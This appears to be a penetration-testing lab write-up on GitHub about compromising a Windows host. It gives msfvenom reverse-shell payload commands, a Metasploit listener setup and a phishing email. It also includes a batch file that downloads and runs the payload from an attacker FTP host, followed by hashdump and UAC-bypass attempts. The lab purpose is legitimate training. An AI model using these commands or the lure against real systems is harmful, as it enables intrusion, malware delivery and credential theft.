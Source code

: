 # Penetrating-an-Internal-Network


<h1>Phase 5</h1>


**<p style="font-size: 15px;">Step 1: Create a remote control payload.</p>**

I began this lab, as I have with many of the others, by elevating the Terminal window to use root privileges with the command "sudo su". Next, I went through the process of creating a new user, "adduser svcsupport". This new user account will be used as the credentials to download an exploit to the victim over FTP. Doing so will help to obfuscate, or hide, my identity if someone evaluates the malicious script. 

I then created a remote control payload with msfvenom, "msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 -f exe LHOST=203.0.113.66 LPORT=4444 -o /home/svcsupport/safetool.exe". Here is a breakdown of each part of the command, "-p" indicates the exploit to convert to shellcode, "--platform" sets the execution destination type (e.g., Windows), "-a" defines the platform architecture (e.g., x64), "-f" determines the output format (e.g., exe), "LHOST" sets the listening IP address for the receiving host, "LPORT" set the listening post number on the receiving host, and "-o" defines the output path and filename. 

Once the payload was created, I entered "ls -l /home/svcsupport" to confirm the existence of the exploit output file of safetool.exe. The file is displayed and is 7168 bytes in size. 

Next, I started the very secure FTP daemon with the command "service vsftpd start". Finally, I started the postgres with the command "service postgresql start". These services were previously downloaded to the lab and will be used to host the safetool.exe file, store the payload and deliver the exploit to the target system. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7f19a4b1-fcea-4695-9a44-f6f076cc5d7a)

**<p style="font-size: 15px;">Step 2: Setup the listener.</p>**

The listener must be set up to receive the inbound connection before the victim can be tricked into running the exploit payload. I began this phase by launching Metasploit utilizing the command "msfconsole". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/776669b2-337c-4d01-8876-66622f3405e6)

Next, I changed the MSF prompt to a handler for reverse shell payloads with the command "use exploit/multi/handler". As you can see, the following line shows (Using configured payload generic/shel_reverse_tcp). To show the configuration details of the handler I input "show options". As currently configured the LPORT is already set to 4444, the default listening port for metasploit. Additionally, there is not LHOST set and the payload is still set to the generic/shell_reverse_tcp. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8291d92-cd56-40f7-b7ee-794163bd0e35)

Below, I used the commands "set payload windows/x64/meterpreter/reverse_tcp" and "set LHOST 203.0.113.66" to update the configurations to reflect the payload I will utilize and the host. The x64 architecture version is used because the MS10 system is a 64-bit operating system. More relaible results occur when the architecture of the exploit and the OS match. 

I re-entered the "show options" command to reveal the updates I made. Once the correct configuration was input, I initiated the MSFConsole as the listener by entering "run". The MSFConsole is now listening on the host 203.0.113.66 on port 4444 for any connections.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc92f829-fd31-40ea-b41c-9d433a6a10aa)

**<p style="font-size: 15px;">Step 3: Socially engineer the victim.</p>**

To save time, this lab assumes that I have already crafted and sent a social engineering message to jaime@structureality.com with a batch file attachment, using the Social Engineering Toolkit (SET) as demonstrated in a previous lab. Later on I will create the batch file. 

In this step, I will operate as Jaime, the victim, who has been fooled by a social engineering email. The email had the following statement:

Dear Customer,

It has come to our attention that your accounts are outdated and need additional configuration to continue providing optimal services. Here is a tool that will automate the process of improving your configuration so you can continue to enjoy the full benefits of our services. 

Please run the attached file at your earliest convenience.

Note: The operation of the update may take considerable time. Minimize the Command Prompt window and continue using your system normally.  

Sincerely,
The Support Department 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7bf68f95-ffd8-459b-bd48-98c878ab8ef8)

To create the batch file, I opened the command prompt and entered "notepad c:\Users\jaime\Downloads\trythis.bat". This command opened Notepad and created a new file in the specified directory.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/735bbd9d-b7c4-4e4f-9556-e571d16902fa)

Notepad pops up, and I am asked if I would like to create the new file. I select, Yes.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/c15b5d52-9417-4c60-b72d-b8bc93f2a1fd)

I then typed the following lines of code into Notepad:

"C:\Program Files (x86)\WinSCP\winscp" /ini=nul /command "open ftp://svcsupport:Pa$$w0rd@203.0.113.66/ -hostkey=open" "get safetool.exe %userprofile%\Downloads\" "exit"

"%userprofile%\Downloads\safetool.exe"

These commands facilitate the download and execution of the exploit file on the victim's system. The strategic use of a basic batch file is effective in circumventing malware scanners that may otherwise detect and remove the exploit from an email. I saved the notepad and exited.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/44a81139-5023-4440-aacb-15c752b6a1fe)

I then opened the File Explorer, selected downloads and double clicked on the trythis file to download the batch file. 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7e793e40-644a-4982-8ca9-2a57a5981999)

Downloading the batch file caused the below command prompt to open, displaying the batch file's operations. As the email instructed, I minimized the window and continued my work day. The victim has been compromised and a remote control session has been established with the listener.  

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/b8b53073-7666-4ce2-afcc-84719bd5b36b)

I returned to the Kali Terminal Window to reveal the session opened between the attack system and Jaime's system.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/3e7ce2ef-4d3f-43ae-8664-30071b9b8dc4)

**<p style="font-size: 15px;">Step 4: Take advantage of the exploited victim.</p>**

In the terminal I entered "sysinfo" to view the details of Jaime's compromised system. Here we can see the computer name, MS10, Operating System, Windows 2016, Archetiecture, X64 and more. Next, I entered "getuid" to view the user account that created the remote sessions, Jaime.

I then tried a command to see if I currently had enough privileges to steal password hashes. This commands was "hashdump". As you can see the error *priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect* appears next indicating the command was not successful. I needed to escalate my privileges within the system to gain access to the passwords and entered "getsystem" to attempt a privilege escalation to SYSTEM privileges. This also resulted in a failure, several lines appear to denote what was attempted and failed. 

Due to these failures, I needed to perform an additional exploit against the system to gain additional capabilities. First, I needed to leave the connected session, but keep it preserved so that I could return later. To do this I entered the command "background".

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/37cf91b5-5adb-4ae0-a427-c2af5a0783bc)

I entered, "use exploit/windows/local/bypassuac_silentcleanup" to utilize an exploit module used to bypass User Access Control on Windows Systems. The *local* path element indicates this exploit must be run from the victim's local system instead of remotely or externally exploited.

"info" was entered next to display the information of the current exploit.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/091b0a44-cf32-4b50-a513-c98ef0322f37)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/50cb209c-8fe3-47f9-9a40-aac8d3c066b8)

Next, I entered "show options" to check the port, payload option and current session. The payload option is missing the x64 architecture, the port is set to 4444, and the session is not set. First I set the session to 1 to match the existing remote connection session, and then changed the LPORT to 4443. This is done to avoid any conflict in attempting multiple connections on the same port. Finally, I set the payload to include the x64 architecture with the command "set payload windows/x64/meterpreter/reverse_tcp". 

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/2b2eca48-9dcb-43ed-a626-fd7e6f0dac6d)

To ensure the configuration was correct, I entered "show option" and confirmed the intended changes.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/f36ea8ca-fe63-44d6-80a8-644b278b9e51)

I then ran the exploit.

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/cc638e30-4482-4326-8b09-dda42f94c4ad)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/7a08a906-5ba2-4ebe-97d6-da5abc5b8732)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/8db7738a-717f-479a-8b39-eb0f1aba1d90)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ed720de7-11ac-4953-9b90-672bcc506bac)

![image](https://github.com/kvweldon/Penetrating-an-Internal-Network/assets/141193154/ca7101f7-04b9-42e0-bc49-1d75240ed48f)







